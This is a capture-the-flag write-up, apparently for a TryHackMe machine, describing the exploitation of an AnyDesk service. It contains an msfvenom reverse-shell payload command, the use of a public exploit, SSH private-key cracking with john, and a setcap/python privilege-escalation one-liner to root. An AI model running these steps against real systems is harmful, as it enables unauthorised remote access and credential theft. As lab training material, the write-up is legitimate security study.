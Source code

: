 # Enumeration

Let's start with a full nmap scan. We follow up with a detailed scan of the open port(s).

![028418fe88c9edef620371a7cf70c46e.png](../../_resources/028418fe88c9edef620371a7cf70c46e.png)

Rustscan was giving some unusual results, so I ran the full nmap scan and found another open port with an unknown service running on it.

![9d992c674533388b9ecaff8ddfe5eef2.png](../../_resources/9d992c674533388b9ecaff8ddfe5eef2.png)

We'll scan these ports again with a more detailed nmap scan; here I included the new port just in case.

![dfaacd0aed83a59b0f6df4257aafa31d.png](../../_resources/dfaacd0aed83a59b0f6df4257aafa31d.png)

It looks like port 46547 is closed, so we'll ignore it. Note that the ssl certificate gives us some information about the service running on port 7070.

`| ssl-cert: Subject: commonName=AnyDesk Client`

So, the service running on port 7070 seems to be AnyDesk.

<br>

# Exploitation

Let's see if we can find any exploits for AnyDesk. [Exploit-db](https://www.exploit-db.com/exploits/49613) is the first result that comes up when Googling "AnyDesk exploit", so let's take a look.

![f97c1a896cbef7ce16656f6ba5a99fe7.png](../../_resources/f97c1a896cbef7ce16656f6ba5a99fe7.png)

We download the python script and examine its contents. For the exploit to work, we need to follow the commented suggestion in the python script and generate a payload with msfvenom using:

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<attacking machine> LPORT=<listening port> -b "\x00\x25\x26" -f python -v shellcode
```

![72d8e0348999ac2b8118327bea7fc83f.png](../../_resources/72d8e0348999ac2b8118327bea7fc83f.png)

We paste the payload in the appropriate location in the python script.

![d65e8a145a148ccbeef8e5bfcdcb82b5.png](../../_resources/d65e8a145a148ccbeef8e5bfcdcb82b5.png)

We also need to change the target IP. Note that the port number **should not** be altered. (This confused me, as I was changing it to 7070 only to have the script fail. Some googling helped.)

![91c239de02c66d66b2b87a2e325bc839.png](../../_resources/91c239de02c66d66b2b87a2e325bc839.png)

Now set up a netcat listener on the chosen port and run the exploit.

![6c45a028f01f76d7f40119a10fc2e3b5.png](../../_resources/6c45a028f01f76d7f40119a10fc2e3b5.png)

(Note: For some reason, changing the LPORT value throughout the above process made the script fail for me. I had to use the default of 4444 to get the exploit to work. This really shouldn't matter; perhaps just a bit of bad luck?)

![8df0915cb0a66d19b8def222f5e9586d.png](../../_resources/8df0915cb0a66d19b8def222f5e9586d.png)

Success! We now have access to annie's account. From here, we easily find the `user.txt` flag.

![490bedc5456e29ad7e87d3be58688837.png](../../_resources/490bedc5456e29ad7e87d3be58688837.png)

At this point, I lost the shell and couldn't get back in with the above method. I tried generating another payload with msfvenom and changing the LPORT value, but to no avail. Resetting the box seemed to fix the issue.
<br>

# Post-Exploitation

Before looking for privesc methods, let's upgrade our shell using `python3 -c 'import pty; pty.spawn("/bin/bash")'`. Within annie's home directory, we find the `.ssh` directory which contains a private RSA key.

![8f372c3a04af6485bf28e24b8163a829.png](../../_resources/8f372c3a04af6485bf28e24b8163a829.png)

If we want, we could use ssh2john to parse the private key, then use john to find the private key password. This would allow us to ssh directly into the machine as annie. While not strictly necessary, let's do it for the sake of completeness (and to have an easy way back in, just in case the connection gets dropped).

Let's save the entirety of the contents of the `id_rsa` file to a file on our local machine, which we also call `id_rsa`. We can use john to find the password to annie's private key. First, run `ssh2john id_rsa > id_rsa.txt` to parse the keyfile. Now run john using the `rockyou.txt` wordlist with `john id_rsa.txt --wordlist=/usr/share/wordlists/rockyou.txt`.

![2ba481c32c197f562a66352845d4f9e4.png](../../_resources/2ba481c32c197f562a66352845d4f9e4.png)

Now use `chmod 600` to give the private key the correct permissions for ssh. Then ssh in using `ssh -i id_rsa annie@10.10.115.191` together with the password john found.

![f8826eed500093edc23c9352c704ec5b.png](../../_resources/f8826eed500093edc23c9352c704ec5b.png)

Now let's actually begin our search for privesc methods. Start by looking for binaries with the SUID bit set using `find / -type f -perm -u=s 2>/dev/null`.

![17c72cafd0bd0aa0662b6771aeac8b90.png](../../_resources/17c72cafd0bd0aa0662b6771aeac8b90.png)

The very first one on the above list is of interest; `setcap` is a program which allows us to set file capabilities. If certain binaries have capabilities set, we can [use this for privesc](https://gtfobins.github.io/#+capabilities). The capability we want to set here is `cap_setuid+ep`, and we are going to give python this capability (since python shows up on the GTFOBins list, and we know the target machine is running python3). The strategy that I used comes from [this article](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/) on privesc using capabilities.

If we try to set the capabilities in the python's standard directory, we encounter an errror. So let's copy python3 to annie's home directory and then try setting the capability:

```
cp /usr/bin/python3 ~/python3
setcap cap_setuid+ep ~/python3
```

We can verify that this worked by using `getcap`:

![7cd4dd0484b58344fdfcd439ee00cba9.png](../../_resources/7cd4dd0484b58344fdfcd439ee00cba9.png)

Now we can use the one-liner from GTFOBins: `./python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'`.

![499479f0a9f5e00284095b6ad66fb484.png](../../_resources/499479f0a9f5e00284095b6ad66fb484.png)

We quickly find the `root.txt` flag.

![ee8ac752724e5af6f73cc5b939dfaf4d.png](../../_resources/ee8ac752724e5af6f73cc5b939dfaf4d.png)

(We also find a THM voucher, but we're a bit too late! Oh well.)


